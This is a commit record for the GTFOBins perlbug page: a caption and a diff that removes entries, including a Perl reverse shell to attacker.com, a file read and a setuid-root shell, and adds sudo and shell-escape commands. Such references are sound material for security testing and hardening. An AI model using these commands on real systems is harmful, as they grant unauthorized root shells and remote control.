

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/perlbug.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Remove wrong functions

```diff
--- a/_gtfobins/perlbug.md
+++ b/_gtfobins/perlbug.md
@@ -1,21 +1,7 @@
 ---
 functions:
   shell:
-    - code: perlbug -e 'exec "/bin/sh";'
-  file-read:
-    - code: |
-        LFILE=file_to_read
-        perlbug -ne print $LFILE
-  reverse-shell:
-    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        perlbug -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
-  suid:
-    - code: ./perlbug -e 'exec "/bin/sh";'
+    - code: perlbug -s 'x x x' -r x -c x -e 'exec /bin/sh;'
   sudo:
-    - code: sudo perlbug -e 'exec "/bin/sh";'
-  capabilities:
-    - code: ./perlbug -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
+    - code: sudo perlbug -s 'x x x' -r x -c x -e 'exec /bin/sh;'
 ---
```
